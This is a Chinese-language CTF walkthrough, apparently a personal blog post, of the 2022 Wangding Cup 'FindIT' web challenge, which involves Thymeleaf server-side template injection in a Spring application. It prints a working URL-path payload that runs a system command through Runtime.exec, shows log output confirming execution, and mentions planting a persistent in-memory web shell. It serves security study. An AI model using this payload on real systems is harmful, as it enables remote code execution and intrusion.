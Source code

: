```yaml
---
layout: about
category: about
toc: true
wrench: 2022-12-02
Researchname: 2022年网鼎杯玄武组赛题复盘-[Web-FindIT]
author: Bin4xin
permalink: /about/WANGDINGCTF2022-WEB-FindIT-Walkthrough/
desc: 「CTF」
---
```


[//]: # (<h1 align="center" dir="auto"><a id="user-content-哨兵bin4xin" class="anchor" aria-hidden="true" href="#哨兵bin4xin"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><a href="https://sentrylab.cn/" rel="nofollow">哨兵::</a><a href="https://bin4xin.sentrylab.cn/" rel="nofollow">Bin4xin::</a></h1>)


## Web-FindIT赛题复盘

本文主要参考《2022 网鼎杯玄武组-you can find it 题解—Spring通用MemShell改造》参考[2]进行复盘；

实际上我们一开始拿到jar包也是尝试几个路由是否存在`SSTI`漏洞，不过CTF基本上通用的payload基本上是不生效的：

![2022-09-21-10.46.42.png](https://image.yjs2635.xyz/images/2022/09/21/2022-09-21-10.46.42.png)

所以我们尝试搞清楚：

- 1.用了`@ResponseBody`注解的路由，不存在漏洞；
- 2.没有使用`@ResponseBody`进行注解的路由，因此即使没有`return`情况下也是可注入的。

如果

### # @ResponseBody

我们找到了一些大牛的解答，就不在这里班门弄斧了，引用《Thymeleaf SSTI漏洞分析》参考[5]原文：

- 问题1：

> 配置了ResponseBody注解确实无法触发，经过调试在`applyDefaultViewName`中`ModelAndView`是`Null`，而非`ModelAndView`对象，所以
>
> `hasView()`会异常，不会设置视图名。

更多移步[配置ResponseBody或RestController注解](https://xz.aliyun.com/t/10514#toc-13){:target="_blank"}

- 问题2：

> [引用参考文章[5]第四章](https://xz.aliyun.com/t/10514#toc-5){:target="_blank"}分析了`SpingMVC`视图解析的过程，在解析视图首先获取返回值并封
>
> 装为`ModleAndView`，而在当前当前环境中并没有返回值，按理说`ModelAndView`应该为空，为什么还能正常得到`ModleAndView`呢？
> 
> 原因主要在`DispatcherServlet#doDispatch`中，获取ModleAndView后还会执行`applyDefaultViewName`方法。

更多移步[urlPath中传入Payload可以执行](https://xz.aliyun.com/t/10514#toc-11){:target="_blank"}

### # SSTI payload及绕过复现

我们直接把payload拿过来：

```
/doc/;/__$%7BT%20(java.lang.Runtime).getRuntime().exec(%22id%22)%7D__::main.x
```

可以看到console报错`UnixProcess`说明命令注入成功了的：

```console
2022-09-22 06:50:03.785  INFO 1 --- [nio-8080-exec-2] c.e.demo.controller.IndexController      : info: __${T (java.lang.Runtime).getRuntime().exec("id")}__::main.x
2022-09-22 06:50:04.004 ERROR 1 --- [nio-8080-exec-2] org.thymeleaf.TemplateEngine             : [THYMELEAF][http-nio-8080-exec-2] Exception processing template "doc/java.lang.UNIXProcess@1331b3c8::[main]": Error resolving template [doc/java.lang.UNIXProcess@1331b3c8], template might not exist or might not be accessible by any of the configured Template Resolvers

org.thymeleaf.exceptions.TemplateInputException: Error resolving template [doc/java.lang.UNIXProcess@1331b3c8], template might not exist or might not be accessible by any of the configured Template Resolvers
```

不过我们同样尝试写入payload注入内存马时却报错

![2022-09-22-15.13.04.png](https://image.yjs2635.xyz/images/2022/09/22/2022-09-22-15.13.04.png)

我们观察一下发现和之前的console报错时不一样的：

```console
Error resolving template [doc/java.lang.UNIXProcess@1331b3c8]
```

成功应该是注入代码成功被识别成模版，然后汇报模版解析过程的问题（如上）；而失败则并未被识别成模版（如下）：

```console
java.lang.IllegalArgumentException: Invalid template name specification:
```

不过通过以上的payload确实是可以成功RCE的：

![2022-12-02-10.47.59.png](https://image.yjs2635.xyz/images/2022/12/02/2022-12-02-10.47.59.png)

所以下一步是需要根据payload生成持久化的shell，因为机器不出网，且没有回显；

我们需要根据参考[^2]生成内存马，实现效果如下：

![image.png](https://image.yjs2635.xyz/images/2022/12/02/image.png)

## 参考

[^1]: [Thymeleaf 模板注入命令执行](https://zhuanlan.zhihu.com/p/248416919){:target="_blank"}
[^2]: [2022 网鼎杯玄武组-you can find it 题解—Spring通用MemShell改造](https://xz.aliyun.com/t/11688){:target="_blank"}
[^3]: [CTF-you-can-find-it (2022 网鼎杯 玄武组 web ctf thymeleaf SSTI bypass and memshell to retrive flag)](https://github.com/testivy/wangding_2022_ctf_findit){:target="_blank"}
[^4]: [Thymeleaf 3.0.12 — Release Notes](https://www.thymeleaf.org/releasenotes.html#thymeleaf-3.0.12){:target="_blank"}
[^5]: [Thymeleaf SSTI漏洞分析](https://xz.aliyun.com/t/10514){:target="_blank"}